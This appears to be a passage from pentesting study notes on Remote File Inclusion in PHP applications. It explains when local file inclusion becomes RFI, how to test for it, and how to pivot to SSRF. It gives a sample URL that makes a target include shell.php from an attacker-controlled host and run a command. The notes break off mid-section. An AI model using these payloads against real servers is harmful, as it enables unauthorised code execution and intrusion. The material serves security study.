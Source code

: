 <figure><img src="../../.gitbook/assets/File Inclusion (php, nodejs,etc)-1.png" alt=""><figcaption></figcaption></figure>

Not every LFI is RFI because:

1. The vulnerable function may not allow including remote URLs
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: http://, ftp://, https://).
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.&#x20;

**To check:**

1. This also requires `allow_url_include`. check from [#data](path-traversal-and-file-inclusion.md#data "mention")
2.  Then check for remote code with local file like so&#x20;

    `http://127.0.0.1:80/index.php`.&#x20;

    Try `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
3. If the back-end server hosted any other local web applications (e.g. port 8080), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.&#x20;

**Note**: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.&#x20;



To run shell from local try.&#x20;

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

&#x20;If http port is blocked.&#x20;

Host:&#x20;
